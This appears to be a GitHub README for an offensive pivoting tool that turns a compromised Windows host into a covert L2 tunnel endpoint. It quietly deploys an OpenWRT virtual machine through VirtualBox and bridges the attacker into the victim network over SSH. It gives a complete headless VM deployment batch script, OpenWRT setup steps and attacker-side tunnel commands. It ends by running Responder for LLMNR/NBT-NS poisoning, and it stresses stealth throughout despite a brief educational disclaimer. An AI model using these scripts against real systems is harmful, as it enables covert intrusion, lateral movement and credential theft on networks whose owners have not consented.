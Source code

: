 # Somerset: Offensive Router for Windows Pivoting (Experimental)

Somerset - is a small **ash** script to prepare OpenWRT for an L2 VPN SSH tunnel for post-exploitation against Windows

![](/poc-images/somerset-cover.png)

> Cover

# Disclaimer

All methods and techniques described in this repo are for educational purposes only. The author are not responsible for misuse of this knowledge. Remember that this knowledge should only be used for ethical purposes. Don't risk your life and be careful.

# Scenario

This is a very specific vector of pivoting, which is a quiet installation of VirtualBox on compromised Windows. The attacker then creates a virtual machine with OpenWRT in the same quiet mode by connecting a specially prepared OpenWRT VDI disk. It is important to realize that this vector requires local administrator rights on a Windows machine.

The most important point here is for the OpenWRT interface in the Vbox to be in post mode and not have an promiscuous mode. This is necessary to initiate exactly the L2 tunnel to conduct link layer attacks, utilize Responder, and so on. This vector is good because it works from anywhere in the infrastructure, since everything will be encapsulated in the SSH tunnel.

It is important to prepare a VDI image in advance. You can convert it from `.img`, here is an example:

I used the OpenWRT image version 19.07.6:

```powershell
C:\Program Files\Oracle\VirtualBox>vboxmanage.exe convertdd "C:\openwrt\openwrt.img" "C:\openwrt\openwrt.vdi" 

Creating dynamic image with size 285736960 bytes (273MB)...
```

```powershell
C:\Program Files\Oracle\VirtualBox>vboxmanage.exe modifyhd --resize 512 "C:\openwrt\openwrt.vdi" 
0%...10%...20%...30%...40%...50%...60%...70%...80%...90%...100%
```

![](/poc-images/research-scheme.jpg)

> Research Scheme

# SSH Dropbear Issue

By default, OpenWRT uses the dropbear implementation for SSH. It does not know how to work with SSH tunnels. Therefore, it will be replaced by `openssh-server`

# Script Mechanics

This script turns an OpenWRT router into an SSH pivoting tool. It does the following:

1) Installation of necessary packages: `ss`, `ip-full`, `kmod-tun`, `openssh-server`
2) Turns off unnecessary DNS and HTTP services, they will only interfere with the pivoting process
3) Replaces `dropbear`, changes its port to 2222, shuts down the daemon. That is, it replaces `dropbear` with `openssh-server`
4) Configuring interfaces. OpenWRT already has a `br-lan` bridge. The task is to create a tap0-interface, enable it and move it to this bridge. And also to activate the unshared mode everywhere.

You should also configure `rc.local` to get the address automatically when you start OpenWRT. This is very important when you deploy the router to a victim. You will need to find this address from the target network. You can scan port 22, since it will always be used on OpenWRT.

```
vi rc.local

udhcpc -i br-lan
echo "nameserver 8.8.8.8" > /etc/resolv.conf

exit 0
```


# Silent OpenWRT Deployment

A small .bat script to automate the creation of an OpenWRT virtual machine

### wrt_vbox_deploy.bat

View the list of adapters in the system

```powershell
Get-NetAdapter
```

```powershell
@echo off

set VMNAME=Somerset
set VMMEMORY=512
set VMCPUS=1
set VMDISK=C:\openwrt\openwrt.vdi
set VMNIC1=bridged
set VMADAPTER1=" " # Specify here the interface of the real Windows
set VMPROMISC1=allow-all

"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" createvm --name "%VMNAME%" --register
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" modifyvm "%VMNAME%" --memory %VMMEMORY% --cpus %VMCPUS%
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" storagectl "%VMNAME%" --name "SATA Controller" --add sata --controller IntelAHCI
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" storageattach "%VMNAME%" --storagectl "SATA Controller" --port 0 --device 0 --type hdd --medium "%VMDISK%"
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" modifyvm "%VMNAME%" --nic1 %VMNIC1%
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" modifyvm "%VMNAME%" --bridgeadapter1 %VMADAPTER1%
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" modifyvm "%VMNAME%" --nicpromisc1 %VMPROMISC1%
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" startvm "%VMNAME%" --type headless
```

```powershell
C:\openwrt\wrt_vbox_deploy.bat
```

# Tunnel Init

For the script to work correctly, it must be processed for execution in the ASH shell. You need to send this ASH script to OpenWRT somehow, I don't think you'll have a problem with that. You can even use `vsftpd` for that.

```bash
caster@kali:~$ ssh root@<OpenWRT IP>
```

```
root@OpenWrt:/# sed -i 's/\r//' somerset.ash
root@OpenWrt:/# chmod +x somerset.ash
root@OpenWrt:/# ash somerset.ash
```

You don't have to worry about silence on the OpenWRT side. It doesn't make noise on the air, it doesn't even transmit hostname via DHCP. After running the script, a tap0-interface will be prepared. Now it is the attacker's task to initiate the tunnel from his side.

## Attacker Side

It is also important to create a /32 route to the OpenWRT endpoint before initiating the SSH tunnel to avoid disconnecting the connection

```bash
caster@kali:~$ sudo route add -net <openwrt_ip> netmask 255.255.255.255 gw <gw_ip>
```

```bash
caster@kali:~$ sudo ssh -oHostKeyAlgorithms=+ssh-rsa -oTunnel=ethernet -w 0:0 root@<OpenWRT IP>
caster@kali:~$ sudo ip link set tap0 up
caster@kali:~$ sudo dhclient -v tap0; sudo route del default
caster@kali:~$ sudo responder -I tap0 -vvv
```

# Proof of Concept (LLMNR/NBT-NS Poisoning, Scanning)

![](/poc-images/cursedpivoting-dhcpaddr.png)

> Address received

![](/poc-images/cursedpivoting-responder.png)

> LLMNR/NBT-NS Poisoning

![](/poc-images/cursedpivoting-netdiscover.png)

> ARP Scanning

# Outro

This is an extremely specific vector of pivoting, however I have proven its practicality.
